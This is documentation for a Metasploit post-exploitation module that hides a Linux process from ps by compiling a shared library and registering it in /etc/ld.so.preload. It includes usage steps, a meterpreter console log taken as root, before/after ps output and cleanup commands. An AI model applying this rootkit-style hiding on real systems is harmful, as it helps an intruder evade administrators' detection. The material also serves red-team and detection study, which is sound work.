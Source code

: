 ## Description

This module will hide a process with LD_PRELOAD according to command arguments or process name.


## Options

 **CMDLINE**

 The cmdline or process name to filter.

 **LIBPATH**

The shared obeject library file path. Use /var/tmp/ as default directory.



## Verification Steps

1. get session on target
2. `use post/linux/manage/hide_process`
3. `set cmdline <cmdline>`
4. `run`

## Scenarios

### Tested on Kali Linux Rolling
```
msf5 post(linux/manage/hide_process) > options

Module options (post/linux/manage/hide_process):

   Name     Current Setting         Required  Description
   ----     ---------------         --------  -----------
   CMDLINE  evil.apk                yes       The cmdline to filter.
   LIBPATH  /var/tmp/.YzfidldoeyHd  yes       The shared obeject library file path
   SESSION  5                       yes       The session to run this module on.

msf5 post(linux/manage/hide_process) > sessions -i
sessions -i 1  sessions -i 5
msf5 post(linux/manage/hide_process) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.103
OS           : Kali kali-rolling (Linux 4.17.0-kali1-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > bg
[*] Backgrounding session 5...
msf5 post(linux/manage/hide_process) > run

[!] SESSION may not be compatible with this module.
[*] Checking system requirement...
[+] All requirement is good.
[*] Writing c code to /tmp/TbkAYnG.c
[*] Compile c code to /var/tmp/.YzfidldoeyHd as a shared object library file
[*] Installing the process hider hook...
[+] Install the hook to hide process successful!
[+] To uninstall the hook, run command below in meterpreter.
execute -H -f sed -a "-i -e '/\/var\/tmp\/.YzfidldoeyHd/d' /etc/ld.so.preload"
rm /var/tmp/.YzfidldoeyHd
[*] Post module execution completed


```

## Before run the module
```
# root @ kali in /tmp [6:13:21] 
$ ps -ef | grep -v grep |grep evil.apk  
root      4809 10240  0 06:12 pts/2    00:00:00 vim evil.apk

```

## After 
```
# root @ kali in /tmp [6:15:30] 
$ ps -ef | grep -v grep |grep evil.apk  

```
Bingo! This process wouldn't show by `ps` command.

## Clean it
```
msf5 post(linux/manage/hide_process) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > execute -H -f sed -a "-i -e '/\/var\/tmp\/.YzfidldoeyHd/d' /etc/ld.so.preload"
Process 4907 created.
meterpreter > rm /var/tmp/.YzfidldoeyHd
meterpreter >
```
Everything backs to normal!